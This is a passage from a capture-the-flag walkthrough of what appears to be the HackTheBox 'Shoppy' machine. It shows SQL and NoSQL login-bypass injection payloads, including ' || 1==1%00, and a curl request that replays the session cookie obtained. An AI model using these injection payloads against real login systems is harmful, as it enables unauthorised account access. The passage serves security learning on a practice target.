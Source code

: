 So now we have to change the /etc/hosts and visit the new site

```c
10.10.11.180 shoppy.htb mattermost.shoppy.htb
```

Let’s visit the website by specifing the subdomain just found.
<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/d537b427-b2f4-4ea3-80b5-8f97765b0bb0" load="lazy"></img>

It redirects us into a new login form where now we can try to inject some basic codes to spot login-vulnerabilities.

```sql
SELECT * FROM users WHERE admin = '1' OR 1 = 1--' AND password = '2'                                                         │
```

I have tried some of the basic sql injections and i have even done a bruteforce with burpsuite but nothing came out

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/8ba312bc-74ea-4744-864d-19ed4c787d4c" load="lazy"></img>

Tried with different types of injections, following the examples provided by hacktricks.
From the new site seems to be nothing, so tried to inject code into the first login, to understand why does it give us error  504

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/8a03f7e9-95e5-4c36-807a-daceea6b1133" load="lazy"></img>

From the request above we can see that if we insert the character ‘ we get the timeout, but even if we use the ‘\’ character, so maybe it is a nosql service. It could be the right way because the syntax is a bit different from a normal sql server, and that should be the reason why none normal-sql injection payload worked.

Knowing this we can look at the [hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection) database for the nosql injections.

From the guide there is a payload to test against the server

```sql
' || 1==1%00
```

That gave us a strange input

<img src="https://github.com/Wanasgheo/Writeups/assets/111740362/6473c771-190a-4e20-a3a8-13497f99869b" load="lazy"></img>

It seems to be an id cookie that let us to enter the site, by the way if i do it manually i get a timeout, while if i do it via curl

```html
curl -i "http://shoppy.htb" --cookie connect.sid=s%3Ahdxw-vROpmbcXdAcVTEKT6gDxwsXxUBy.ROrWwvDrUTiN7eISKG0fIwIhbiQTkSusXuzkXdvQGAc 

HTTP/1.1 200 OK
Server: nginx/1.23.1
Date: Sat, 10 Dec 2022 15:45:07 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 2178
Connection: keep-alive
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Tue, 01 Feb 2022 09:38:44 GMT
ETag: W/"882-17eb4a698a0"

<!DOCTYPE html>
<html lang="en-US">
    <head>
        <meta charset="utf-8">
        <title>
            Shoppy Wait Page
```